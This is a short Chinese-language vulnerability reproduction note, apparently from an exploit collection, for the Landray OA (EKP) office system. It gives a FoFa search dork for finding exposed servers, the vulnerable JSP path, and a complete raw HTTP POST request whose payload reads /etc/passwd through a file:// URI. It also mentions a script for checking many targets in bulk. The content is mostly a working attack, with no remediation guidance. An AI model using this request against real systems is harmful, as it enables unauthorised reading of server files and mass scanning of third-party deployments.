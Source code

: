 # 影响范围：
蓝凌OA（EKP）
# FoFa Dork
app="Landray-OA系统"
# 漏洞复现：
登录页面：
![image](images/login.png)
访问漏洞地址/sys/ui/extend/varkind/custom.jsp，使用burpsuite进行抓包，变更发包方式为POST，并添加POST数据，请求包如下：  
```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

var={"body":{"file":"file:///etc/passwd"}}
```
使用脚本批量验证：    
![image](images/script.png)  